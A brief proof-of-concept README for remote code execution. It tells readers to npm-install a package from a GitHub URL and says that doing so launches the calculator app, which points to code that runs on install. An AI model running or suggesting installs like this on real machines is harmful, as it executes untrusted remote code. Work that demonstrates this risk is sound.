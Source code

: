 # RCE -Remote Code Execution

run the below command 

```
npm install git+https://github.com/brighterplanet/cm1-route.git
```

to open the calculator app!

Proof of concept to demonstrate RCE.
